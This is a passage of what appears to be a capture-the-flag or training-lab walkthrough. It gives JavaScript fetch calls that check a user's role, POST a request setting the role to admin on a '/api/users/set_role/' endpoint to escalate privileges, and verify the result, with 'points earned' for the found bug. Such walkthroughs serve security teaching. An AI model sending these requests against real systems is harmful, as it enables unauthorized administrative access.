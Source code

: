 **Step 2:** Check current privileges  
```javascript
fetch('/api/auth/profile/', {
  headers: {
    'Authorization': `Bearer ${token}`,
    'Content-Type': 'application/json'
  }
})
.then(res => res.json())
.then(data => {
  console.log('Current user:', data);
  console.log('Role:', data.role);
  console.log('Is staff:', data.is_staff);
  console.log('Is superuser:', data.is_superuser);
});
```

**Step 3:** Escalate privileges to admin
```javascript
fetch('/api/users/set_role/', {
  method: 'POST',
  headers: {
    'Authorization': `Bearer ${token}`,
    'Content-Type': 'application/json'
  },
  body: JSON.stringify({
    role: 'admin'
  })
})
.then(res => res.json())
.then(data => {
  console.log('Escalation result:', data);
  
  if (data.bug_found === 'PRIVILEGE_ESCALATION') {
    console.log('🎉 SUCCESS! You are now admin!');
    console.log('Points earned:', data.points);
  }
});
```

**Step 4:** Verify escalation
```javascript
fetch('/api/auth/profile/', {
  headers: {
    'Authorization': `Bearer ${token}`,
    'Content-Type': 'application/json'
  }
})
.then(res => res.json())
.then(data => {
  console.log('Verified user:', data);
  console.log('New role:', data.role);
  console.log('Is staff:', data.is_staff);
  console.log('Is superuser:', data.is_superuser);
});
```
